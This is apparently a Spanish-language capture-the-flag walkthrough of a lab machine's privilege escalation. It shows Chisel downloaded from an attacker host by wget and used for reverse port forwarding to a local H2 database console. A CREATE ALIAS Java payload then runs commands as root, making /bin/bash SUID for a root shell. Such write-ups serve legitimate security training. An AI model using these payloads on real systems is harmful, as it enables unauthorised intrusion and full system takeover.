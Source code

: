 ## Privilege Escalation {-}

### Rootear la maquina {-}

Algo que hemos visto, es que el puerto **8082** no se podia ver por reglas definidas en el systema.
Como ya hemos pensado en technicas de port forwarding, installamos **Chisel**.

1. Descarga de chisel y build

    ```bash
    git clone https://github.com/jpillora/chisel
    cd chisel
    go build -ldflags "-w -s" .
    upx chisel
    chmod +x chisel
    ```

1. Enviamos chisel a la maquina victima

    - en la maquina de attackante

        ```bash
        python3 -m http.server 80
        ```

    - en la maquina victima

        ```bash
        cd /tmp
        wget http://10.10.14.8/chisel
        chmod +x chisel
        ```

1. En la maquina de attackante creamos un servidor 

    ```bash
    ./chisel server --reverse --port 1234
    ```

1. En la maquina victima creamos un cliente 

    ```bash
    ./chisel client 10.10.14.8:1234 R:8082:127.0.0.1:8082
    ```

Ahora en firefox si vamos a la url `http://localhost:8082` ya podemos ver el contenido de la web.

Si pinchamos en preferencias y despues en **Permitir conexiones desde otros ordenadores** ya podemos navigar desde la
url `http://10.10.10.102:8082`.

Aqui vemos un mensaje Wrong user name or password. Esto puede passar si la **URL JDBC** ya esta en uso. 
si cambiamos la url `jdbc:h2:~/test` por `jdbc:h2:~/EEEEEE` y pinchamos el boton conectar, Entramos en el
panel de control H2 database.

Si en la shell buscamos con el commando `ps -faux` y buscamos el servicio **h2** vemos que el servicio a sido lanzado por
el usuario root. Quiere decir que si ejecutamos commandos desde la consola h2, lo lanzariamos como usuario root.

Buscamos si existe un exploit para H2 console

```bash
searchsploit h2 consola
searchsploit h2 database
```

Encontramos un exploit en python que permitiria ejecutar **Alias Arbitrary Code execution**. Lo analyzamos:

```bash
searchsploit -x 44422
```

Mirando el exploit, vemos que tenemos que crear un alias en el cual podemos podemos utilizar para ejecutar commandos. En este caso
no necessitamos utilizar el exploit. Podemos copiar las partes que nos interessa en el panel H2.

```sql
CREATE ALIAS EXECVE AS $$ String execve(String cmd) throws java.io.IOException { java.util.Scanner s = new \
java.util.Scanner(Runtime.getRuntime().exec(cmd).getInputStream()).useDelimiter("\\\\A"); return s.hasNext() ? s.next() : "";  }$$;

CALL EXECVE('whoami')
```

Aqui vemos **root**. Pues aqui lanzamos el commando para que la `/bin/bash` sea SUID

```sql
CREATE ALIAS EXECVE AS $$ String execve(String cmd) throws java.io.IOException { java.util.Scanner s = new \
java.util.Scanner(Runtime.getRuntime().exec(cmd).getInputStream()).useDelimiter("\\\\A"); return s.hasNext() ? s.next() : "";  }$$;

CALL EXECVE('chmod 4755 /bin/bash')
```

En la shell, ya podemos comprobar que la `/bin/bash` es SUID y con el commando `bash -p` no convertimos en root

```bash
ls -l /bin/bash
bash -p
cd /root
cat root.txt
```

Y a estamos root y podemos visualizar la flag.
